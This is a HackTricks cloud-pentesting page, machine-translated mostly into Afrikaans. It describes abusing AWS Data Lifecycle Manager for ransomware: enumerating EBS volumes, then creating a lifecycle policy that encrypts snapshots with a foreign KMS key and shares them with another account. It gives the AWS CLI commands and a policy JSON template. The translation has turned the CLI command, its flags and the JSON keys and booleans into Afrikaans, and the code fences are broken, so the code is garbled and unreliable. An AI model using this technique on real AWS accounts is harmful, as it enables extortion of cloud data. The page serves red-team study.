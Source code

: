 # AWS - Data Lifecycle Manager

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Data Lifecycle Manger (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

'n Ransomware-aanval kan uitgevoer word deur soveel EBS-volume as moontlik te enkripteer en dan die huidige EC2-instanties, EBS-volume en oomblikke uit te vee. Om hierdie skadelike aktiwiteit te outomatiseer, kan 'n persoon Amazon DLM gebruik deur die oomblikke met 'n KMS-sleutel van 'n ander AWS-rekening te enkripteer en die enkripteerde oomblikke na 'n ander rekening oor te dra. Alternatiewelik kan hulle oomblikke sonder enkripsie na 'n rekening wat hulle bestuur oordra en dit daar enkripteer. Alhoewel dit nie reguit is om bestaande EBS-volume of oomblikke direk te enkripteer nie, is dit moontlik om dit te doen deur 'n nuwe volume of oomblik te skep.

Eerstens sal 'n persoon 'n bevel gebruik om inligting oor volumes te versamel, soos instansie-ID, volume-ID, enkripsiestatus, aanhegstaus en volume-tipe.
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```afrikaans
aws dlm skep-lewensiklusbeleid --beskrywing "My eerste beleid" --toestand GEAKTIVEER --uitvoeringsrol-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --beleidsbesonderhede lêer://beleidsbesonderhede.json
```
```

A template for the policy document can be seen here:
```bash
```json
{
"Beleidstipe": "EBS_SNAPSHOT_BESTUUR",
"Hulpbrontipes": [
"VOLUME"
],
"Teikentekens": [
{
"Sleutel": "VoorbeeldSleutel",
"Waarde": "VoorbeeldWaarde"
}
],
"Skedules": [
{
"Naam": "DaaglikseSnaps",
"KopieerTegniek": waar,
"TegniekeByvoeg": [
{
"Sleutel": "Snapskepper",
"Waarde": "DLM"
}
],
"VeranderlikeTegnieke": [
{
"Sleutel": "Kostesentrum",
"Waarde": "Finansies"
}
],
"SkepReël": {
"Interval": 24,
"IntervalEenheid": "URE",
"Tye": [
"03:00"
]
},
"BehouReël": {
"Telling": 14
},
"VinnigeHerstelReël": {
"Telling": 2,
"Interval": 12,
"IntervalEenheid": "URE"
},
"KruisStreekKopieerReëls": [
{
"TeikenStreek": "us-west-2",
"Versleutel": waar,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/jou-kms-sleutel-id",
"KopieerTegnieke": waar,
"BehouReël": {
"Interval": 1,
"IntervalEenheid": "DAE"
}
}
],
"DeelReëls": [
{
"TeikenRekeninge": [
"123456789012"
],
"OngedeeldeInterval": 30,
"OngedeeldeIntervalEenheid": "DAE"
}
]
}
],
"Parameters": {
"SluitBootVolumeUit": onwaar
}
}
```
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
